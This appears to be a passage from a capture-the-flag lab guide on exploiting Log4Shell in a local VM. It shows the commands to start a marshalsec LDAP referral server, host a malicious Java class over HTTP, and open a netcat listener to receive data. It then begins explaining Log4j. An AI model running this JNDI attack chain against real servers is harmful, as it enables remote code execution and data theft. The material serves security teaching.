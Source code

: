 <ol>
<li>Run the LDAP Server:</li>
</ol>
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”:

cd ~Desktop/log4shell/target

Next, start the LDAP server by running:

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://127.0.0.1:4242/#Exploit”

You can get the ip address of the vm by running the block below in a terminal

ip addr show

This outputs the vm’s IP

127.0.0.1

<strong>It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct.</strong>

<ol start="2">
<li>Run the Malicious Server:</li>
</ol>
Open a new terminal and make sure the active directory is the directory that contains your malicious .class file. For simplicity, we have created “Desktop/log4shell/{flag_no}” for you to work in.&nbsp;<strong>Do not leave this directory</strong>. Run the server in “Desktop/log4shell/{flag_no}” by the following command:

python3 -m http.server 4242

<strong>It is very important that this matches the port specified in the LDAP server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct</strong>&nbsp;You should see the following output:

<ol start="3">
<li>Read data that is flowing on the network (This step is required for Flag 2 but is optional for the rest):</li>
</ol>
Open a terminal and run:

nc -nlvp &lt;your_desired_port&gt;

You should see the following output:

<strong>To print debug statements from your Java code, tail the ~/Desktop/log4shell/logs/console.log file and add System.out.println statements to your Exploit.java.</strong>

Intro Flag

Now that we are set up, let’s do a quick rundown of Log4j, how it works at a high level, and test that we are able to successfully call and exploit the application.

As you should know from the background and resource’s section, Log4j is an application logging library that outputs user defined program information. An example log statement would look like the following:
